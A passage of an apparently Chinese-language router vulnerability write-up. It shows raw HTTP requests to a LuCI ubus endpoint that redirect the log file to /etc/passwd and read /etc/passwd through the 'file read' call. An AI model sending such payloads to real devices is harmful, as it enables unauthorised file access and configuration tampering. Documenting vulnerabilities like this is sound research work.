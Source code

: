```
POST http://192.168.7.143/cgi-bin/luci/admin/ubus?1578741218608 HTTP/1.1
Host: 192.168.7.143
Connection: keep-alive
Content-Length: 192
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.117 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://192.168.7.143
Referer: http://192.168.7.143/cgi-bin/luci/admin/system/system
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: sysauth=b1f9ac240ca8135e2c41a12cca5c5cb6

[{"jsonrpc":"2.0","id":37,"method":"call","params":["b1f9ac240ca8135e2c41a12cca5c5cb6","uci","set",{"config":"system","section":"cfg01e48a","values":{"log_size":"1","log_file":"/etc/passwd"}}]}]
```

```
HTTP/1.1 200 OK
Connection: close
Transfer-Encoding: chunked
Content-Type: application/json
Cache-Control: no-cache
Expires: 0
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff

[{"id":40,"jsonrpc":"2.0","result":[0]}]
```

### [](#任意文件读取 "任意文件读取")任意文件读取

/etc/shadow（文件权限 400） 可能不是以 root 去读的，权限不够无法读取 。

```
POST /cgi-bin/luci/admin/ubus?1578715003061 HTTP/1.1
Host: 192.168.7.143
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:73.0) Gecko/20100101 Firefox/73.0
Accept: */*
Accept-Language: zh-CN
Referer: http://192.168.7.143/cgi-bin/luci/admin/system/flash
Content-Type: application/json
Content-Length: 125
Origin: http://192.168.7.143
Connection: close
Cookie: sysauth=9e3e02d9aad24fbfba163537d17d9b83

[{"jsonrpc":"2.0","id":5,"method":"call","params":["9e3e02d9aad24fbfba163537d17d9b83","file","read",{"path":"/etc/passwd"}]}]
```
